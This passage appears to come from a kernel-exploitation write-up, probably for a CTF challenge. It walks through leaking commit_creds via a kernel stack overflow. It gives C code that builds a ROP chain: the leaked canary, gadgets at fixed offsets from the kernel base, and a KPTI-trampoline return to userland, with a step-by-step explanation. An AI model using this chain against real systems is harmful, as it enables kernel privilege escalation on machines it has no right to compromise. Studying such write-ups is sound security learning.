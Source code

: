 Since canary is also enabled,  we leak it as well. From here , we can also offset to a few useful gadgets and functions like `kpti trampoline`.

## Leaking commit_creds

+ A few things differ from userland to kernel land buffer overflows, the very first of them is the registers popped at the end of a function. Here, we have the `canary` followed by `rbx`, `r12` and `rbp` being popped before getting to `rip`.
+ Our overflow starts immediately from overwriting `canary`.
+ So , let's script it now.

```c
void get_cred(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_rax_ret = image_base + 0x4d11UL;
    mov_rax_rax_16_rbp = image_base + 0x4aadUL;

    payload[off++] = canary;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // rax <- __ksymtabs_commit_creds - 0x10
    payload[off++] = mov_rax_rax_16_rbp; // rax <- [__ksymtabs_commit_creds -> offset]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)leak_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak commit_creds()");
    ssize_t w = write(fd, payload, sizeof(payload));
    puts("[!] Should never be reached");
}
```

+ To get `offset` of `ksymtab_commit_creds`, we have used a gadget which is `mov rax, qword [rax+16] ; ret` and hence we pass `ksymtab_commit_creds-0x10`.
+ To return to a userland function, we first have to call our `kpti_trampoline`. This function initially has a lots of popping of registers and so we skip that with eyes closed.
+ Finally, we set `leak_cred` as our userland function and restore all the `EFLAGS` for smooth return to userland.
+ The `EFLAGS` are preserved by us by calling a special function before anything else, which is our `save_state` function which stores all the `EFLAGS` so that we can reuse them for returning to the userland.
